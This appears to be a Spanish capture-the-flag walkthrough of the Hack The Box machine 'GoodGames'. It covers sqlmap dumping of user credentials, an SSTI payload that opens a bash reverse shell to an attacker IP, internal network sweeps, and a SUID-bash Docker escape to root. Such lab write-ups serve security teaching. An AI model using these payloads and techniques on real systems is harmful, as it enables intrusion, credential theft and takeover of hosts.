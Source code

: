 ```yaml
---
description: '✍️ Autor: TheCyberGeek🔍 Dificultad: Fácil 📅 Fecha de creación: 24/01/2022'
---
```


# GoodGames

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.130
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.130
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1279).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 10.10.11.130
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1280).png" alt=""><figcaption></figcaption></figure>

Accedemos al puerto 80.

<figure><img src="../../.gitbook/assets/image (1281).png" alt=""><figcaption></figcaption></figure>

Es una página de Juegos y tiene un Login vamos a usar entonces SQLMap.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-22 100654.png" alt=""><figcaption></figcaption></figure>

Conocer las bases de datos.

```
sqlmap -u http://10.10.11.130 --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las tablas de la base de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main --tables --batch
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer las columnas de la tabla de la bases de datos objetivo.

```
sqlmap -u http://10.10.11.130 --forms -D main -T user --columns --batch
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Conocer la información que hay en esas columnas.

```bash
sqlmap -u http://10.10.11.130 --forms -D main -T user -C name,id,email,password --dump --batch
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado unas credenciales aunque la contraseña al ser un hash la crackeamos.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de analizar el sitio web del perfil, encontramos un símbolo de configuración que nos redirige a una URL con un dominio diferente. Como primer paso, registraremos este nuevo dominio en el archivo `/etc/hosts`.

```bash
echo "10.10.11.130 internal-administration.goodgames.htb" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con **Wappalyzer** se ejecuta **Python** por lo que parece una vulnerabilidad **SSTI**. Para ello realizamos la comprobación básica.

```
{{ 7 * 7 }}
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es vulnerable a **SSTI** por lo que realizamos un payload que contiene una Reverse Shell.

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"').read() }}
```

Nos ponemos en escucha.

```bash
nc -nlvp 4444
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

somos **root.** No somos root de manera oficial.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La interfaz de red está conectada al adaptador de red interna con la dirección `172.19.0.2/16`, lo que nos permite comunicarnos con la red interna desde nuestra máquina de ataque a través de la red comprometida.

Para descubrir los hosts en la red interna, utilizamos el siguiente comando en una sola línea para realizar un escaneo de barrido:

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Una vez identificado un objetivo, realizamos un escaneo de puertos con el siguiente comando:

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comencé a buscar credenciales de SSH en la máquina y finalmente encontré la carpeta de un usuario dentro del directorio `/home`. Sin embargo, no encontré a `augustus` en el archivo `/etc/passwd`.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que el puerto 22 y 80 están abiertos, por lo que intentamos conectarnos por SSH con el usuario augustus utilizando la contraseña que habíamos encontrado previamente (superadministrator).

```bash
ssh augustus@172.19.0.1
whoami
augustus
```

Como el directorio home del usuario augustus está montado en el contenedor **Docker** y tenemos acceso como usuario **root**, podemos trasladar un binario con permisos **SUID** al home de **augustus** para escalar privilegios a root en el host.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

Ahora que hemos logrado elevar nuestros privilegios a **root** en la máquina víctima, podemos proceder a leer la flag del usuario **root**.

<figure><img src="../../.gitbook/assets/image (1283).png" alt=""><figcaption></figcaption></figure>
